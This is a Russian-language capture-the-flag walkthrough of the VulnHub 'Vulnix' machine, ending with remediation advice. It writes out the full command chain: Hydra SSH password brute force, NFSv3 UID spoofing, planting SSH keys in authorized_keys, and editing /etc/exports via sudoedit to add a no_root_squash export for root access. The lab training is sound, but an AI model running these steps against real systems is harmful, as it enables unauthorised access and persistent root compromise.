



# HackLAB: Vulnix (VulnHub) — прохождение

[English](README.md) | **Русский**

Прохождение Vulnix в VMware — от перечисления сервисов до root. Основная цепочка связана со слабым паролем SSH, доверием NFSv3 к UID клиента и правом изменять конфигурацию NFS через sudo.

| | |
| --- | --- |
| Цель | `192.168.77.100` — изолированная сеть VMware |
| Атакующая система | Kali Linux |
| ОС цели | Ubuntu 12.04.1 LTS (i686) |
| Задача | Получить трофей из `/root` |
| Результат | Получен доступ root |

## 1. Разведка

Начал с полного TCP-сканирования:

```bash
nmap -p- -T4 -Pn 192.168.77.100 -oN vulnix_full.nmap
```

Nmap обнаружил 17 открытых портов. В первую очередь меня заинтересовали SSH (22), SMTP (25), Finger (79), RPCBind (111) и NFS (2049). Также были открыты POP3, IMAP, старые Unix-сервисы `exec`/`login`/`shell` и несколько динамических RPC-портов.



Затем уточнил версии основных служб:

```bash
nmap -sV -sC -Pn -p 22,25,79,111,2049 192.168.77.100 -oN vulnix_services.nmap
```

В выводе были OpenSSH 5.9p1, Postfix, Debian fingerd и NFS. Finger потенциально раскрывает имена пользователей, а NFS — доступ к файлам, поэтому сосредоточился на них.


### Finger

Для перечисления пользователей использовал Metasploit:

```text
msfconsole
use auxiliary/scanner/finger/finger_users
set RHOSTS 192.168.77.100
set USERS_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
run
```

Среди найденных имён были `user`, `backup`, `root` и системные учётные записи. Существование пользователя не гарантирует возможность входа, но `user` стал обоснованным кандидатом для проверки SSH.


### NFS

```bash
showmount -e 192.168.77.100
rpcinfo -p 192.168.77.100
```

Сервер экспортировал `/home/vulnix` для `*`. Я отметил это и вернулся к NFS после получения shell.

## 2. Первоначальный доступ

Проверил пароль пользователя `user` по небольшому словарю `fasttrack.txt`:

```bash
hydra -l user -P /usr/share/wordlists/fasttrack.txt 192.168.77.100 ssh -t 4
```

Hydra нашла пароль `letmein`, с которым удалось подключиться:

```bash
ssh user@192.168.77.100
```



Внутри системы посмотрел локальные учётные записи:

```bash
grep '^vulnix:' /etc/passwd
```

У пользователя `vulnix` были **UID 2008**, **GID 2008** и домашний каталог `/home/vulnix`. Это оказался тот же каталог, который был доступен через NFS.

## 3. Доступ к домашнему каталогу через NFS

Подключил экспорт на Kali:

```bash
sudo mkdir -p /tmp/vulnix_nfs
sudo mount -t nfs -o vers=3 192.168.77.100:/home/vulnix /tmp/vulnix_nfs
ls -lan /tmp/vulnix_nfs
```

Монтирование прошло успешно, но просмотр каталога завершился `Permission denied`.



Исходный экспорт и права на каталог выглядели так:

```text
/home/vulnix *(rw,root_squash)
drwxr-x--- ... 2008 2008 ... /home/vulnix
```

NFSv3 использовал `AUTH_SYS`: клиент передаёт числовые UID/GID. `root_squash` ограничивает удалённый UID 0, но не препятствует клиенту заявить другой UID. Я проверил, даст ли доступ локальный пользователь с UID 2008.

```bash
sudo groupadd -g 2008 vulnix
sudo useradd -u 2008 -g 2008 -m vulnix
sudo -u vulnix -s
```


С UID 2008 появилась возможность записи в NFS-каталог. Я создал пару SSH-ключей и поместил публичную часть в `authorized_keys`:

```bash
cd /tmp/vulnix_nfs
ssh-keygen -t rsa -f /tmp/id_rsa -N ""
mkdir -p .ssh
cat /tmp/id_rsa.pub > .ssh/authorized_keys
chmod 700 .ssh
chmod 600 .ssh/authorized_keys
exit
```

Здесь `>` соответствует фактическому прохождению с пустым файлом ключей. Если записи уже существуют, перезаписывать `authorized_keys` нельзя.


Закрытый ключ скопировал в профиль Kali с ограниченными правами, затем подключился под `vulnix`:

```bash
sudo install -o kali -g kali -m 600 /tmp/id_rsa /home/kali/.ssh/vulnix_lab

ssh -i ~/.ssh/vulnix_lab \
  -o IdentitiesOnly=yes \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostKeyAlgorithms=+ssh-rsa \
  vulnix@192.168.77.100
```

Старому SSH-серверу понадобились параметры совместимости с `ssh-rsa`. Команда `id` подтвердила `uid=2008(vulnix)`.

## 4. Повышение привилегий

Проверил права sudo:

```bash
sudo -l
```

Ключевая строка:

```text
(root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```


Это и было основанием для повышения привилегий: пользователь `vulnix` мог менять правила NFS-экспорта. Открыл конфигурацию разрешённой командой:

```bash
sudoedit /etc/exports
```

Исходный экспорт использовал `root_squash`. Я сохранил его и добавил строку:

```text
/root *(rw,sync,no_root_squash)
```


**Ограничение лаборатории:** правило sudo разрешало только редактирование `/etc/exports`, но не `exportfs -ra` и не перезагрузку. Чтобы применить сохранённые изменения, **я самостоятельно перезапустил свою ВМ Vulnix через VMware**. Это действие владельца стенда, а не полученная через shell возможность. В реальной системе понадобился бы последующий перезапуск или перечитывание конфигурации службы.

После запуска машины удалось смонтировать новый экспорт `/root`:

```bash
sudo mkdir -p /mnt/root_nfs
sudo mount -t nfs -o vers=3 192.168.77.100:/root /mnt/root_nfs
findmnt /mnt/root_nfs
sudo ls -lan /mnt/root_nfs
```

Для проверки действия `no_root_squash` создал временный файл и затем удалил его:

```bash
sudo touch /mnt/root_nfs/nfs_root_test
sudo ls -ln /mnt/root_nfs/nfs_root_test
sudo rm /mnt/root_nfs/nfs_root_test
```

На смонтированном ресурсе файл принадлежал **UID 0 и GID 0**. Это подтвердило возможность записи с идентификаторами клиентского root.


Конфигурация SSH разрешала вход root по публичному ключу. Через NFS добавил свой лабораторный публичный ключ в `/root/.ssh/authorized_keys`:

```bash
sudo mkdir -p /mnt/root_nfs/.ssh
sudo chmod 700 /mnt/root_nfs/.ssh
sudo sh -c 'cat /tmp/id_rsa.pub >> /mnt/root_nfs/.ssh/authorized_keys'
sudo chmod 600 /mnt/root_nfs/.ssh/authorized_keys
```


Финальное подключение:

```bash
ssh -i ~/.ssh/vulnix_lab \
  -o IdentitiesOnly=yes \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostKeyAlgorithms=+ssh-rsa \
  root@192.168.77.100

whoami
id
cat /root/trophy.txt
```

Сессия показала `uid=0(root)`, трофей был получен.


## 5. Итоги

Цепочка стала возможной из-за трёх проблем:

1. **Слабый пароль SSH:** для `user` подошёл пароль из небольшого словаря.
2. **Доверие NFSv3 к UID клиента:** экспортируемый с правом записи домашний каталог допускал действия от UID 2008, заявленного клиентом.
3. **Избыточное право sudo:** пользователь `vulnix` мог редактировать `/etc/exports` и добавить опасный экспорт с `no_root_squash`. **Этот параметр был добавлен в ходе эксплуатации, а не существовал изначально.**

Для защиты необходимо отключать ненужные Finger и устаревшие сетевые службы, усиливать SSH-аутентификацию, ограничивать NFS доверенными клиентами, не предоставлять лишние экспорты на запись и убрать правило sudo для `/etc/exports`. `root_squash` ограничивает UID 0, но не устраняет все проблемы доверия в `AUTH_SYS`.

Все скриншоты сделаны в моей лаборатории. Исходные текстовые файлы `.nmap` не сохранились, поэтому в репозитории представлены скриншоты и команды для повторной проверки. Закрытый SSH-ключ в репозиторий не добавлен.

**Машина:** [HackLAB: Vulnix на VulnHub](https://www.vulnhub.com/entry/hacklab-vulnix%2C48/).
